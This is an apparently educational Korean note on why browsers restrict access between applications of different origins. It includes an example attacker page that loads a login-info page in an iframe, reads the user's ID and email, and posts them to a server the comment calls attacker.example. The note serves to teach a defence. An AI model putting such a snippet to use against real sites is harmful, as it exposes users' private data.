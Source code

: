 # Origin에 의한 애플리케이션 간 접근 제한

## 애플리케이션 간 접근 제한 필요성

- 다양한 애플리케이션 콘텐츠 조합 → 다른 콘텐츠를 자신의 웹 애플리케이션에 포함 가능
- 마찬가지로 다른 콘텐츠에서 자신의 애플리케이션 사용 가능
- **민감한 정보가 포함된 데이터가 노출된 위험성 존재**

```html
<html>
  <head>
    <title>로그인 사용자 정보</title>
  </head>
  <body>
    <h1>로그인 사용자 정보</h1>
    <div id="user_info">
      <div id="login_id">
        <div>사용자 ID</div>
        <div>dowoon</div>
      </div>
      <div id="mail">
        <div>메일 주소</div>
        <div>dowoon@mail.com</div>
      </div>
    </div>
  </body>
</html>
```

- ifram을 통해 다른 사용자의 로그인 정보를 훔쳐볼 수 있음

```html
<html>
  <head>
    <script>
      function load() {
        // 사용자 정보 읽어오기
        const userInfo = frm.document.querySelector("#user_info");
        // 사용자 정보 문자열을 attacker.example 서버로 전송
        fetch("./log", { method: "POST", body: userInfo.textContent });
      }
    </script>
  </head>
  <body>
    <div>
      <!--사용자를 속이는 온라인 사이트 콘텐츠-->
    </div>
    <!--사용자 정보를 iframe으로 삽입-->
    <iframe
      name="frm"
      onload="load()"
      src="https://site.example/login_user.html"
    />
  </body>
</html>
```
